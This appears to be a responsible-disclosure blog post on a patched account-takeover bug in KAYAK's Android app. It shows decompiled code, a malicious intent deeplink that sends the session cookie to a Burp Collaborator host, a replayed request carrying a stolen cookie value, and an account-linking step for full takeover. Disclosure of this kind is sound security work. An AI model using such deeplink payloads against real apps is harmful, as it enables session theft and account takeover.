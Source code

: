 ```yaml
---
slug: account-takeover-kayak/
title: Account Takeover in KAYAK
date: 2022-11-23
subtitle: So it's the app itself that delivers the cookie to me?
category: attacks
tags: vulnerability, hacking, exploit, software, code
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1669164815/blog/account-takeover-kayak/cover_account_takeover_kayak.webp
alt: Photo by Nahel Abdul Hadi on Unsplash
description: In this blog post, I present in detail a zero-day vulnerability I discovered in KAYAK v161.1, along with the steps to follow to replicate the exploit.
keywords: Kayak, Mobile Application, Android, Session Cookie, Vulnerability, Exploit, Improper Access Control, Ethical Hacking, Pentesting
author: Carlos Bello
writer: cbello
name: Carlos Bello
about1: Security Researcher
source: https://unsplash.com/es/fotos/flha0KwRrRc
---
```


While researching zero-day vulnerabilities in mobile applications,
I found it's possible to steal a user's session cookie
through a malicious deeplink
in KAYAK v161.1.
Below,
I will explain this vulnerability in detail,
where it is located in the code
and what steps must be taken to replicate the exploit.

## Where is this vulnerability?

I found the following exported activity
in the AndroidManifest.xml file:

```xml
<activity android:name="com.kayak.android.web.ExternalAuthLoginActivity" android:exported="true" android:launchMode="singleTask">
    <intent-filter>
        <data android:scheme="kayak"/>
        <data android:host="externalAuthentication"/>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
    </intent-filter>
</activity>
```

This means that
any app installed on a mobile device
with that vulnerable version of KAYAK
can interact with this activity.
In addition,
this activity can be called from a deeplink
and accepts implicit intents.

## ExternalAuthLoginActivity

After noticing that,
I immediately went to the exported activity
to see what it did and how it did it.
While analyzing and reading the source code,
I came across two very striking functions:

```java
 private final String getRedirectUrl() {
        String stringExtra = getIntent().getStringExtra(EXTRA_REDIRECT_URL);
        return stringExtra == null ? "" : stringExtra;
 }

 private final void launchCustomTabs() {
        m.d b10 = new d.a(this.helper.getSession()).g(true).b();
        p.d(b10, "Builder(helper.session)\n…rue)\n            .build()");
        Uri.Builder buildUpon = Uri.parse(getRedirectUrl()).buildUpon();
        buildUpon.appendQueryParameter(SESSION_QUERY_PARAM, l.getInstance().getSessionId());
        i.openCustomTab(this, b10, buildUpon.build(), null);
 }
```

Since the activity is exported,
a malicious web page via a deeplink,
or a malicious mobile app via an intent,
could set up a malicious RedirectUrl
using the getRedirectUrl function.
Okay,
but for this to have an impact,
we need to see what we can do about this behavior.

That's where the launchCustomTabs method comes in,
which,
as we see,
concatenates a GET parameter to the URL.
That GET parameter is the mobile app user's session cookie:

```java
public final String getSessionId() {
        String cookieValueInternal;
        synchronized (this) {
            cookieValueInternal = getCookieValueInternal(SESSION_COOKIE_NAME);
        }
        return cookieValueInternal;
}
```

```java
public static final String SESSION_COOKIE_NAME = "p1.med.sid";
```

With this in mind,
I didn't hesitate to log into the web application
and delete all cookies
to end up with a request like the following:

```txt
GET /profile/dashboard HTTP/2
Host: www.kayak.com.co
Cookie: p1.med.sid=[Cookie Here];
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

I uploaded the exploit to a malicious server:

```html
<!DOCTYPE html>
<html>
    <body>
        <a id="exploit" href="intent://externalAuthentication#Intent;scheme=kayak;package=com.kayak.android;component=com.kayak.android.web.ExternalAuthLoginActivity;action=android.intent.action.VIEW;S.ExternalAuthLoginActivity.EXTRA_REDIRECT_URL=https://jsfl9yn414bp1z2sujwfjsj3ruxlla.burpcollaborator.net;end">Exploit</a>;
    </body>
</html>
```

Then,
I opened it from the mobile app.
Checking the malicious server logs,
I saw how my account session cookie was leaked.
So I copied it and put it in the request I showed above:

```html
GET /profile/dashboard HTTP/2
Host: www.kayak.com.co
Cookie: p1.med.sid=65-R-4rhBEjEeCTHTB5bkcdEoO-RUM4RJuW5YvCJ3nfrsvdH0UbkjGBywHzVgsV0u8_Ys-4ay0zqH2q0Jt8H8EXM2yN-QEmydDQIbJ1eAmYZzh6nablokLtpHYCBUNGs7aoae;
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

## Account takeover POC

Below is a video demonstration of the exploitation
of this vulnerability:

<div class="tc">

<iframe
  width="560"
  height="315"
  src="https://www.youtube.com/embed/vmTDH8QpMnA"
  frameborder="0"
  allowfullscreen
>
</iframe>

</div>

## Problems and more problems - Account linking

I have found that
once I steal the victim's cookie
and log into the web application with it,
I can see the victim's data without any problem.
However,
I cannot edit them for some strange reason.
Therefore,
investigating the web application,
I realized that an attacker could gain full access to the account
—and then view, edit, delete information, etc.—
by simply linking a Google account
(or any other available provider).

In this case,
I linked a Google account corresponding to the attacker
to the victim's account.
The goal was that
the attacker would then only have to log into the application
from his Google account
to gain access to the victim's account.

<div class="tc">

<iframe
  width="560"
  height="315"
  src="https://www.youtube.com/embed/AgJRDqsawHU"
  frameborder="0"
  allowfullscreen
>
</iframe>

</div>

That's it.
An unauthenticated,
remote attacker can steal the account of any victim
logged into the KAYAK mobile app for Android
with a one-click attack.

## Timeline

### August 12, 2022

- Vulnerability reported:
  Improper Access Control
  (CVSS: 9.3; Critical)

- Vulnerability triaged

### August 13, 2022

- Vulnerability remediated

- KAYAK v161.2 (10048) available on Play Store
